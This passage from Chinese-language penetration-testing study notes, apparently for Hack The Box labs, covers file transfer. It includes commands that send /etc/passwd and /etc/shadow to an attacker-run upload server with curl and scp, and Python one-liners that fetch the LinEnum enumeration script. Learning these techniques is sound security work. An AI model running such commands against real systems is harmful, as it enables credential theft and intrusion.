### 5.2.5 SSH

```
scp plaintext@192.168.49.128:/root/myroot.txt . #下载
scp /etc/passwd htb-student@10.129.86.90:/home/htb-student/ #上传
```

上传文件到web服务器

```shell-session
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

不同语言开启简单web服务器的方法

python

```
python3 -m pip install --user uploadserver
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server' #创建自签名证书
python3 -m uploadserver 443 --server-certificate ~/server.pem

python3 -m http.server
python2.7 -m SimpleHTTPServer
```

php

```
php -S 0.0.0.0:8000
```

ruby

```
ruby -run -ehttpd . -p8000
```

## 5.3 使用代码传输文件

**python2下载**

```
python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

**python3下载**

```
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

[ 根据 W3Techs 的数据 ](https://w3techs.com/technologies/details/pl-php)，77.4% 的网站都使用 PHP

**python3上传**
